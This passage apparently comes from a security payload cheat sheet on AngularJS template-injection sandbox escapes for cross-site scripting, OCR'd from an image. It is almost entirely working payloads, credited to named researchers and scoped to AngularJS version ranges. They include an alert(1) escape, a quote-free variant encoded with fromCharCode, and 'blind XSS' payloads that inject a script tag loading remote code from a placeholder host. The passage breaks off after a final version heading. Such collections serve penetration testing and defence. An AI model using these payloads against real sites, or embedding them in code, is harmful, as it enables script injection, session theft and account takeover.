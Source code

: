 ```javascript
{
  {
    constructor.constructor("alert(1)")();
  }
}
```

### Advanced bypassing XSS

AngularJS (without `'` single and `"` double quotes) by
[@Viren](https://twitter.com/VirenPawar_)

```javascript
{
  {
    x = valueOf.name.constructor.fromCharCode;
    constructor.constructor(x(97, 108, 101, 114, 116, 40, 49, 41))();
  }
}
```

### Blind XSS

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

```javascript
{{
    constructor.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes
(PortSwigger)

```javascript
{{
    $on.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)
